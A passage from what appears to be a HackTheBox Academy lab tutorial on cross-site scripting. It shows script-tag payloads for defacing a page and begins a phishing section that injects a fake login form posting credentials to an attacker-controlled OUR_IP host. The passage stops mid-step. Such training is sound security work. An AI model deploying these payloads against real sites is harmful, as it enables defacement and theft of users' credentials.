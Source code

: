 Even after defacement, the original source code remains intact, with the injected payload appearing at the end:

```html
<div></div><ul class="list-unstyled" id="todo"><ul>
<script>document.body.style.background = "#141d2b"</script>
</ul><ul><script>document.title = 'HackTheBox Academy'</script>
</ul><ul><script>document.getElementsByTagName('body')[0].innerHTML = '...SNIP...'</script>
</ul></ul>
```

The injected JavaScript executes when the page loads, changing its appearance. However, if the injection occurs in the middle of the source code, additional elements/scripts may follow, requiring adjustments to achieve the desired look.

To ordinary users, the defaced page will display the intended changes, obscuring the original content.

---

# Phishing

Phishing attacks commonly exploit XSS vulnerabilities to inject fake login forms, tricking victims into submitting sensitive information to an attacker's server. These credentials can then be used to gain unauthorized access to accounts and sensitive data. Phishing via XSS can also be used as a simulation exercise to evaluate an organization's security awareness.

## XSS Discovery

We begin by identifying an XSS vulnerability in the web application. For example, consider the following URL for an image viewer:

```
http://SERVER_IP/phishing/index.php?url=https://www.hackthebox.eu/images/logo-htb.svg
```

We control the `url` parameter, allowing us to test XSS payloads. If a basic payload fails, analyze the HTML source to find a working payload. Once a suitable payload is identified, we can proceed with the phishing attack.

## Login Form Injection

To perform a phishing attack, inject an HTML login form that sends submitted credentials to a server we control. Example login form:

```html
<h3>Please login to continue</h3>
<form action="http://OUR_IP">
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

Replace `OUR_IP` with your server's IP address. Minify and embed this form into a JavaScript `document.write()` function:
